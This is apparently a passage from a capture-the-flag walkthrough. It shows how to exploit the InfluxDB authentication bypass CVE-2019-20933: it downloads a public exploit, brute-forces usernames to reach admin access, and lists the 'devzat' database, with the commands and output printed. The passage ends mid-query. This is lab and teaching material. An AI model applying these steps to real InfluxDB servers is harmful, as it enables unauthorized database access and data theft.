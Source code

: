There exists an authentication bypass vulnerability (CVE-2019-20933) in all InfluxDB versions before 1.7.6. This makes it possible to interact with the database. 

Download the [exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) from here. Create a list of potential users to attempt to login as and launch the exploit, achieving access as the `admin` user.

```bash
$ cat users.txt
patrick
catherine
root
admin
$ python3 InfluxDB-Exploit-CVE-2019-20933/__main__.py

  _____        __ _            _____  ____    ______            _       _ _
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) |
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                                         | |
                                                         |_|
 - using CVE-2019-20933

Host (default: localhost):
Port (default: 8086):
Username <OR> path to username file (default: users.txt):

Bruteforcing usernames ...
[x] patrick
[x] catherine
[x] root
[v] admin

Host vulnerable !!!

Databases:

1) devzat
2) _internal

.quit to exit
```

Select the `devzat` database. It has a single measurement, `user`.

```bash
[admin@127.0.0.1/devzat] $ show measurements
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
                    ],
                    "name": "measurements",
                    "values": [
                        [
                            "user"
                        ]
                    ]
                }
            ],
            "statement_id": 0
```